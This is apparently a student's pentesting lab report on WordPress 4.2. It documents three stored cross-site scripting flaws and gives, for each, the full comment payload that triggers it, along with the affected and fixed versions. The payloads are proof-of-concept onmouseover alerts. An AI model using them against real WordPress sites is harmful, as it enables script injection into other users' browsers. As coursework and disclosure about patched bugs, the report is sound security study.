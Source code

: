 #Project 7 - Wordpress Pentesting

Time spent: 1 hours spent in total

> Objective: Find, analyze, recreate, and coument vulnerabilities affecting WordPress v4.2

## Pentesting Report

1. (Required) Authenticated Stored Cross-Site Scripting (XSS)

-[x] Summary:
    1. Vulnerability types: XSS
    2. Tested in version: 4.2
    3. Fixed in version: 4.2.3
    4. GIF Walkthrough:
        https://i.gyazo.com/761f2461ed3ce9dfc6b94d6e170e7035.mp4

    5. Steps to recreate: Make a comment with
        <a href="[caption code=">]</a><a title = " onmouseover=alert('testalert')  ">link</a>

    6. Affected source code: https://klikki.fi/adv/wordpress3.html

2. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)

-[x] Summary:
    1. Vulnerability types: XSS
    2. Tested in version: 4.2
    3. Fixed in version: 4.4.1.8
    4. GIF Walkthrough:
        https://gyazo.com/3b8e1e695be57eb746cbdc125da0b79e
    5. Steps to recreate: Make a comment with
    <a title='x onmouseover=alert(unescape(/hello%20world/.source))
    style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>

    6. Affected source code: https://klikki.fi/adv/wordpress2.html

3. (Required) User List Table Cross-Site Scripting (XSS)

-[x] Summary:
    1. Vulnerability types: XSS
    2. Tested in version: 4.2
    3. Fixed in version: 4.4.1.8
    4. GIF Walkthrough:
        https://gyazo.com/969c2f6fc7dbbb7c118b6a45ab868d8c

    5. Steps to recreate: Make a comment with
         <p>TEST!!!<figure style="width: 1px;" class="wp-caption alignnone"><figcaption class="wp-caption-text">
         <a href="</figcaption></figure></a><a href="http://onMouseOver='alert(1)'">Click me</a></p>

    6. Affected source code: https://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/